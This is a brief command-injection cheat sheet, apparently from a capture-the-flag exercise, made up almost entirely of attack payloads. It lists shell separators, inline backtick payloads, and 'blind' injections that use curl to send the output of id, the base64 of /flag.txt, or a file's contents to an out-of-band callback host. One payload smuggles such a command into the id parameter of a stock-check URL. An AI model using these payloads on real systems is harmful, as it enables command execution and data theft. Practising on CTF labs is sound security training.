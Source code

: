 ___

```
;
&&
|
$(command)
```

# Inline

```
`curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(id)`
```

```
`cat /flag.txt > flag.txt`
```

# Blind

```
https://ey8u7q46.eu1.ctfio.com/stock-check.php?id=f3d1426d-16af-4243-a148-d7c874ddfe1a;curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(cat /flag.txt | base64)
```

```bash
;curl -X POST -d $(base64 f) https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

